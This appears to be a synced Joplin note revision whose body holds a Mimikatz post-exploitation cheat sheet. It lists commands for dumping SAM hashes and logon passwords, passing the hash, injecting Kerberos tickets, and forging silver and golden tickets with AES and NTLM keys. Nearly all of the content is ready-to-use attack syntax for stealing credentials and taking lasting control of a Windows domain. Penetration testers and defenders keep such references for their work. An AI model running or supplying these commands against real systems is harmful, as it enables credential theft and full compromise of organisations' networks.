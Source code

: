 id: 060042db63304186862c76a6e9b2bd7c
parent_id: 
item_type: 1
item_id: 47b792b9adf748ee8b933cb57a91173c
item_updated_time: 1643081995899
title_diff: "[{\"diffs\":[[1,\"Mimikatz\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":8}]"
body_diff: "[{\"diffs\":[[1,\"# Mimikatz\\\n\\\nPost exploitation commands must be executed from SYSTEM level privileges.\\\n- mimikatz # privilege::debug\\\n- mimikatz # token::whoami\\\n- mimikatz # token::elevate\\\n- mimikatz # lsadump::sam\\\n- mimikatz # sekurlsa::logonpasswords\\\n\\\n## Pass The Hash\\\n\\\n- mimikatz # sekurlsa::pth /user:username /domain:domain.tld /ntlm:ntlm_hash\\\n\\\n## Inject generated TGS key\\\n\\\n- mimikatz # kerberos::ptt <ticket_kirbi_file>\\\n\\\n## Generating a silver ticket \\\n\\\nAES 256 Key:\\\n\\\n- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>\\\n\\\nAES 128 Key:\\\n\\\n- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>\\\n\\\nNTLM:\\\n\\\n- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>\\\n\\\n\\\n## Generating a Golden Ticket\\\n\\\nAES 256 Key:\\\n\\\n- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name>\\\n\\\nAES 128 Key: \\\n\\\n- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name>\\\n\\\nNTLM:\\\n\\\n- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<krbtgt_ntlm_hash> /user:<user_name>\\\n\\\n\\\n\\\n\\\n\\\n\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1406}]"
metadata_diff: {"new":{"id":"47b792b9adf748ee8b933cb57a91173c","parent_id":"2deea0a2fd65431c90074dad6a2d5de8","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1586396751457,"user_updated_time":1586399413356,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:44:25.824Z
created_time: 2022-02-28T02:44:25.824Z
type_: 13